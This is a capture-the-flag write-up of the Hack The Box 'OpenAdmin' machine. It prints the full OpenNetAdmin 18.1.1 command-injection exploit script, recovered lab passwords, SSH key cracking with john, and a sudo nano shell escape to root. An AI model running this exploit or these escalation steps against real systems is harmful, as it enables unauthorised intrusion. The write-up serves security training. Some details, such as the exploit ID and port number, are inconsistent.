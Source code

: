 # Hack The Box | OpenAdmin

![](images/status-card.png)

## Box Summary

This box is an easy Linux box on HackTheBox created by dmw0ng. We begin by finding a webserver running on port 80 that leads us to an opennetadmin instance logged in as guest. From there we are able exploit a remote code execution vulnerability to gain acess to the box as www-data. We find credentials to ssh in as Jimmy in a php file on the webserver. We pivot to Joanna by cracking an encrypted RSA key on the box that is used for ssh. Once we are logged in as Joanna, we find that she is able to run nano with root privileges. We exploit this to gain a root shell on the box.

## Enumeration

We run nmap on the box and find two open ports: 80/tcp, 22/tcp

```
nmap -sV -sC -oA nmap/openadmin 10.10.10.171
```

![](images\nmap-screenshot.jpg)

We take a look at port 80 in our browser by going to http://10.10.10.171 and we find that there is just an Ubuntu Apache2 Default Page running. 

We run gobuster to enumerate any directories that may give us more information about the webserver. We find that there is a /music directory that exists.

```bash
gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](images\gobuster.jpg)

When we visit the webpage we see a login and signup button.

![](images\music.jpg)

Navigating to the login section of the site, we are redirected to http://10.10.10.171/ona which is a service called  **opennetadmin**. We are logged into the service as a guest. We can see near the top of the page that the version running is v18.1.1

![](images\ona.jpg)

## Initial Foothold

Now that we know the version number, we want to search for publicly available exploits using searchsploit

```
searchsploit opennetadmin
```

![searchsploit.jpg](images\searchsploit.jpg)

We find an exploit for RCE, 46791.sh

We copy this to our current directory using the ```-m``` flag and rename the file for convenience.

```
searchsploit -m exploits/php/webapps/47691.sh
mv 47691.sh ona-rce.py
```



![copy-exploit.jpg](images\copy-exploit.jpg)



When looking at the contents of the file, we see that the exploit is a curl command that sends our commands to the server.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

The version we copied from searchsploit is encoded for windows, so we simply fix that by running ```dos2unix``` on the file.

```
dos2unix ona-rce.py
```

We run the exploit and find that we are able to execute code as ```www-data```

![](images\initial-foothold.jpg)

We now enumerate files on the box, looking for any sensitive information in any of the php files found on the webserver. We find ```local/config/database_settings.inc.php``` which contains a password.

![database-settings.jpg](images\database-settings.jpg)

We look for users on the box that have a login shell by looking at ```/etc/passwd``` and find two users on the box: jimmy and joanna.

![etc-passwd.jpg](images\etc-passwd.jpg)

Now that we have a couple users, we check for credential resuse and find that jimmy has reused a password. Because of this, we are able to ssh into the box as user jimmy the password 'n1nj4W4rri0r!'

![jimmy-ssh.jpg](images\jimmy-ssh.jpg)



## Pivoting to Joanna

Now that we are logged in as the user jimmy, we need to pivot to joanna since she holds the ```user.txt``` file we are after. We poke around the filesystem and find a directory ```/var/www/internal``` on the system. To see how this site is setup, we want to take a look at the apache2 configuration for this site ```/etc/apache2/sites-enabled/internal.conf```



![internal-conf.jpg](images\internal-conf.jpg)

We see that the site is running on port 52846. We navigate back to the ```/var/www/internal``` directory to take a look at the files, and we see that ```main.php``` executes code that outputs joanna's ssh rsa key.

```
vim /var/www/internal/main.php
```

![main-php.jpg](images\main-php.jpg)

Since we know the internal site is running on port 52486, we can try to curl this page to see if the code executes. We get the key.

![curl-joanna-key.jpg](images\curl-joanna-key.jpg)

Now that we have they key, we save it to our local machine as ```joanna_id_rsa```. Since the file is encrypted, we will need to crack the password. We use ```ssh2john``` to change the rsa key to a format that john the ripper will understand.

```
/usr/share/john/ssh2john.py joanna_id_rsa > joanna_id_rsa.john
```

Now we can pass this file to john, using the rockyou.txt wordlist and let it run with the following command:

```
john joanna_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

After a moment, we can see that john cracks the key for us:

![crack-joanna.jpg](images\crack-joanna.jpg)

We need to lock down permissions on the key to 600 or ssh will yell at us for having a world-readable key:

```
chmod 600 joanna_id_rsa
```

Now we can login with ssh using joanna's key and 'bloodninjas' password.

```
ssh -i joanna_id_rsa joanna@10.10.10.171 
```

![joanna-ssh.jpg](images\joanna-ssh.jpg)

We have owned user!

![user-txt.PNG](images\user-txt.PNG)



## Privilege Escalation

Now we need to find a path to root. We begin by seeing what commands joanna can run as sudo with ```sudo -l``` and see that she can run ```/bin/nano /opt/priv``` as root.

![sudo-l.PNG](images\sudo-l.PNG)

Usually when a user can run a system binary as root, I like to check [GTFObins](https://gtfobins.github.io/) to see if it is exploitable. We see nano on the list and that we can use control commands to execute code as root and escape to a shell.

![Ref: https://gtfobins.github.io/nano](images\gtfo-nano.PNG)

We run ``` sudo /bin/nano /opt/priv``` to open the editor as root. From there, we hit CTRL+R for Read File, then CTRL+X to Execute Command. we type ```reset; sh 1>&0 2>&0``` to reset our shell, spawn ```sh``` and redirect standard out and standard error to the terminal. This gives a root shell.



![nano-root.jpg](images\nano-root.jpg)

Root Owned!
